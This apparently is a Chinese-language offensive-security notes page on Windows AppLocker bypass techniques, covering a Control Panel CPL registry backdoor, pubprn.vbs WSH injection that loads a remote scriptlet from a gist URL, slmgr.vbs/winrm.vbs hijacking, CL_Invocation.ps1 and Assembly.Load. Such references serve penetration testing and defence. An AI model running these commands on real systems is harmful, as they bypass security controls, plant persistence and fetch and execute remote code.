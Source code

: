 #### Control Panel

通过添加注册表，在控制面板启动时设置好的代码将会被执行。这种方法可以用于bypass AppLocker，当然也可以用来设置后门。

```powershell
reg add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Control Panel\Cpls"
/v pentestlab.cpl /t REG_SZ /d "C:\pentestlab.cpl"
```

Links:

- https://pentestlab.blog/2017/05/24/applocker-bypass-control-panel/
- https://www.contextis.com/blog/applocker-bypass-via-registry-key-manipulation

#### Pubprn.vbs

在Windows 7以后系统中，微软有一个名为**PubPrn.vbs**的WSH脚本，其中使用了GetObject()，并且参数可控，可以进行WSH注入攻击

```powershell
C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs 127.0.0.1 script:https://gist.githubusercontent.com/api0cradle/fb164762143b1ff4042d9c662171a568/raw/709aff66095b7f60e5d6f456a5e42021a95ca802/test.sct
```

Links:

- https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
- https://enigma0x3.net/2017/08/03/wsh-injection-a-case-study/

#### slmgr.vbs/winrm.vbs

和Pubprn.vbs类似，不过它需要配合注册表，其中用到CreateObject()实例化 Scripting.Dictionary存在劫持后导致代码执行

```powershell
cscript /b C:\Windows\System32\slmgr.vbs
winrm quickconfig
```

Links:

- https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
- https://www.youtube.com/watch?v=3gz1QmiMhss

#### CL_Invocation.ps1

windows自带的诊断工具，可以执行exe文件

```powershell
PS C:\> . C:\Windows\diagnostics\system\AERO\CL_Invocation.ps1
PS C:\> SyncInvoke cmd.exe "/c ipconfig > E:\ip.txt"
```

#### Assembly.Load

[Assembly.load](https://msdn.microsoft.com/en-us/library/system.reflection.assembly.load(v=vs.110).aspx)是.Net Framework中[System.Reflection](https://docs.microsoft.com/zh-cn/dotnet/api/system.reflection?view=netframework-4.7.1) namespace中的一种方法，该方法会有多个重载版本，其中一个就是提供程序集的详细信息，即程序集的标识，包括程序集的名称，版本，区域信息，公有密钥标记,全部都是以一个字符串的形式提供，例如：“MyAssembly,Version=1.0.0.0,culture=zh-CN,PublicKeyToken=47887f89771bc57f”。它可以从内存、本地磁盘或者URL当中调用文件。.NET程序集最初只是读取权限，为了枚举与二进制文件相关联的方法和属性，又将权限更改为执行。所以这种方法只能执行C#编译的程序。
